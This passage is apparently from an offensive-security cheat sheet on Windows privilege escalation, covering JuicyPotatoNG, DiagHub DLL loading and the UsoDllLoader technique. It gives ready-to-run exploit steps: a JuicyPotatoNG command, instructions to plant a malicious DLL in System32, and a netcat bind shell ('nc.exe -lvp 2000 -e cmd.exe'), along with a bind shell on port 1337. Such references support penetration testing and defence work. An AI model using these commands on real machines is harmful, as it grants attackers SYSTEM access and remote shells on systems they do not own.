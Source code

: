 ### JuicyPotatoNG

* [antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

```powershell
JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami" > C:\juicypotatong.txt
```


## EoP - Privileged File Write

### DiagHub

:warning: Starting with version 1903 and above, DiagHub can no longer be used to load arbitrary DLLs.

The Microsoft Diagnostics Hub Standard Collector Service (DiagHub) is a service that collects trace information and is programmatically exposed via DCOM. 
This DCOM object can be used to load a DLL into a SYSTEM process, provided that this DLL exists in the `C:\Windows\System32` directory. 

#### Exploit

1. Create an [evil DLL](https://gist.github.com/xct/3949f3f4f178b1f3427fae7686a2a9c0) e.g: payload.dll and move it into `C:\Windows\System32`
2. Build https://github.com/xct/diaghub
3. `diaghub.exe c:\\ProgramData\\ payload.dll`

The default payload will run `C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe`

Alternative tools:
* https://github.com/Accenture/AARO-Bugs/tree/master/CVE-2020-5825/TrigDiag
* https://github.com/decoder-it/diaghub_exploit


### UsoDLLLoader

:warning: 2020-06-06 Update: this trick no longer works on the latest builds of Windows 10 Insider Preview.

> An alternative to the DiagHub DLL loading "exploit" found by James Forshaw (a.k.a. @tiraniddo)

If we found a privileged file write vulnerability in Windows or in some third-party software, we could copy our own version of `windowscoredeviceinfo.dll` into `C:\Windows\Sytem32\` and then have it loaded by the USO service to get arbitrary code execution as **NT AUTHORITY\System**.

#### Exploit

1. Build https://github.com/itm4n/UsoDllLoader
    * Select Release config and x64 architecure.
    * Build solution.
        * DLL .\x64\Release\WindowsCoreDeviceInfo.dll
        * Loader .\x64\Release\UsoDllLoader.exe.
2. Copy `WindowsCoreDeviceInfo.dll` to `C:\Windows\System32\`
3. Use the loader and wait for the shell or run `usoclient StartInteractiveScan` and connect to the bind shell on port 1337.
